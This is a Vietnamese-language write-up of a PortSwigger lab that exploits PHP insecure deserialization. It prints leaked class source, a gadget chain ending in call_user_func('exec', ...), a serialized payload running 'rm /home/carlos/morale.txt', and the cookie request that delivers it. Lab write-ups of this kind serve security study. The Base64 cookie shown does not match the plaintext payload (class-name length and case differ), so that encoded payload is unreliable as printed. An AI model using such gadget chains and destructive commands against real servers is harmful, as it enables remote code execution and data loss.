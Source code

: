 # Write-up: Developing a custom gadget chain for PHP deserialization

### Tổng quan
Khai thác lỗ hổng **Insecure Deserialization** trong ứng dụng PHP, nơi dữ liệu serialized trong cookie `session` được xử lý mà không kiểm tra tính toàn vẹn. Bằng cách phân tích source code của `CustomTemplate.php`, kẻ tấn công xây dựng một gadget chain sử dụng các lớp `CustomTemplate`, `Product`, `DefaultMap`, và magic method `__wakeup()` để gọi hàm `call_user_func("exec", "rm /home/carlos/morale.txt")`, thực thi lệnh xóa tệp và hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng **Insecure Deserialization** bằng cách xây dựng một gadget chain để thực thi lệnh `exec("rm /home/carlos/morale.txt")` thông qua deserialization của cookie `session`, hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**  
- Đăng nhập với tài khoản `wiener:peter` và quan sát trong Burp Proxy HTTP history, request tới file PHP:  
  ```
  GET /cgi-bin/libs/CustomTemplate.php HTTP/2
  Host: 0a5e003d04ef567890ab023400cd00a9.web-security-academy.net
  ```  
- Lộ source code bằng request:  
  ```
  GET /cgi-bin/libs/CustomTemplate.php~ HTTP/2
  Host: 0a5e003d04ef567890ab023400cd00a9.web-security-academy.net
  ```  
- **Phản hồi**:  
  - Source code chứa các lớp:  
    ```php
    <?php

    class CustomTemplate {
        private $default_desc_type;
        private $desc;
        public $product;

        public function __construct($desc_type='HTML_DESC') {
            $this->desc = new Description();
            $this->default_desc_type = $desc_type;
            // Carlos thought this is cool, having a function called in two places... What a genius
            $this->build_product();
        }

        public function __sleep() {
            return ["default_desc_type", "desc"];
        }

        public function __wakeup() {
            $this->build_product();
        }

        private function build_product() {
            $this->product = new Product($this->default_desc_type, $this->desc);
        }
    }

    class Product {
        public $desc;

        public function __construct($default_desc_type, $desc) {
            $this->desc = $desc->$default_desc_type;
        }
    }

    class Description {
        public $HTML_DESC;
        public $TEXT_DESC;

        public function __construct() {
            // @Carlos, what were you thinking with these descriptions? Please refactor!
            $this->HTML_DESC = '<p>This product is <blink>SUPER</blink> cool in html</p>';
            $this->TEXT_DESC = 'This product is cool in text';
        }
    }

    class DefaultMap {
        private $callback;

        public function __construct($callback) {
            $this->callback = $callback;
        }

        public function __get($name) {
            return call_user_func($this->callback, $name);
        }
    }

    ?>
    ```  
- **Phân tích**:  
  - Cookie `session` chứa dữ liệu serialized, được unserialize khi xử lý request.  
  - Magic method `__wakeup()` trong `CustomTemplate` gọi `build_product()`, dẫn đến tạo đối tượng `Product`.  
  - Trong `Product::__construct()`, `$desc->$default_desc_type` truy cập thuộc tính động, có thể kích hoạt `__get()` nếu `$desc` là `DefaultMap`.  
  - `DefaultMap::__get($name)` gọi `call_user_func($this->callback, $name)`, là sink để thực thi lệnh tùy ý:  
    ![Source code CustomTemplate.php](./images/1_source_code.png)  

2. **Kiểm tra lỗ hổng Insecure Deserialization**  
- **Ý tưởng khai thác**:  
  - Mục tiêu: Thực thi lệnh `exec("rm /home/carlos/morale.txt")` khi unserialize cookie `session`.  
  - Xây dựng gadget chain:  
    - `CustomTemplate->__wakeup()` gọi `build_product()`.  
    - `build_product()` tạo `new Product($this->default_desc_type, $this->desc)`.  
    - Trong `Product::__construct()`, `$this->desc = $desc->$default_desc_type`.  
    - Nếu `$desc` là `DefaultMap` và `$default_desc_type` là `"rm /home/carlos/morale.txt"`, thì `$desc->$default_desc_type` gọi `DefaultMap::__get("rm /home/carlos/morale.txt")`.  
    - Trong `DefaultMap::__get($name)`, `call_user_func($this->callback, $name)` được gọi với `$this->callback = "exec"` và `$name = "rm /home/carlos/morale.txt"`, dẫn đến `exec("rm /home/carlos/morale.txt")`.  
- **Payload**:  
  ```php
  O:14:"CustomTemplate":2:{s:17:"default_desc_type";s:26:"rm /home/carlos/morale.txt";s:4:"desc";O:10:"DefaultMap":1:{s:8:"callback";s:4:"exec";}}
  ```  
- **Giải thích payload**:  
  - Tạo đối tượng `CustomTemplate` với:  
    - `$default_desc_type = "rm /home/carlos/morale.txt"`.  
    - `$desc = DefaultMap` với `$callback = "exec"`.  
  - Khi unserialize, `__wakeup()` gọi `build_product()`, dẫn đến `Product::__construct("rm /home/carlos/morale.txt", DefaultMap)`.  
  - `$desc->$default_desc_type` gọi `DefaultMap::__get("rm /home/carlos/morale.txt")`, thực thi `call_user_func("exec", "rm /home/carlos/morale.txt")`:  
    ![Payload serialized](./images/2_payload.png)  

3. **Khai thác (Exploitation)**  
- Đăng nhập với tài khoản `wiener:peter`, lấy cookie `session` từ Burp Proxy.  
- Mã hóa payload thành Base64:  
  ```php
  TzozOiJjdXN0b21UZW1wbGF0ZSI6Mjp7czoxNzoiZGVmYXVsdF9kZXNjX3R5cGUiO3M6MjY6InJtIC9ob21lL2Nhcmxvcy9tb3JhbGUudHh0IjtzOjQ6ImRlc2MiO086MTA6IkRlZmF1bHRNYXAiOjE6e3M6ODoiY2FsbGJhY2siO3M6NDoiZXhlYyI7fX0=
  ```  
- Thay thế cookie `session` trong request:  
  ```
  GET / HTTP/2
  Host: 0a5e003d04ef567890ab023400cd00a9.web-security-academy.net
  Cookie: session=TzozOiJjdXN0b21UZW1wbGF0ZSI6Mjp7czoxNzoiZGVmYXVsdF9kZXNjX3R5cGUiO3M6MjY6InJtIC9ob21lL2Nhcmxvcy9tb3JhbGUudHh0IjtzOjQ6ImRlc2MiO086MTA6IkRlZmF1bHRNYXAiOjE6e3M6ODoiY2FsbGJhY2siO3M6NDoiZXhlYyI7fX0=
  ```  
- Gửi request, server unserialize cookie, thực thi `exec("rm /home/carlos/morale.txt")`.  
- **Ý tưởng payload**:  
  - Sử dụng gadget chain qua `CustomTemplate`, `Product`, và `DefaultMap` để gọi `call_user_func("exec", "rm /home/carlos/morale.txt")` thông qua deserialization.  
- **Kết quả**:  
  - Lab xác nhận tệp `/home/carlos/morale.txt` bị xóa, hoàn thành lab:  
    ![Lab hoàn thành](./images/3_solved.png)  

### Bài học rút ra
- Hiểu cách khai thác **Insecure Deserialization** bằng cách xây dựng gadget chain sử dụng các lớp PHP (`CustomTemplate`, `Product`, `DefaultMap`) và magic method `__wakeup()` để thực thi lệnh tùy ý (`exec`).  
- Nhận thức tầm quan trọng của việc sử dụng digital signature để kiểm tra tính toàn vẹn dữ liệu serialized, kiểm tra nghiêm ngặt kiểu dữ liệu, và thay thế native serialization bằng các định dạng an toàn như JSON để ngăn chặn các cuộc tấn công deserialization.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc xây dựng gadget chain để khai thác **Insecure Deserialization** trong PHP, nhấn mạnh tầm quan trọng của việc kiểm tra tính toàn vẹn dữ liệu serialized và sử dụng các định dạng an toàn để bảo vệ ứng dụng khỏi các cuộc tấn công thực thi mã tùy ý. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 9/2025.*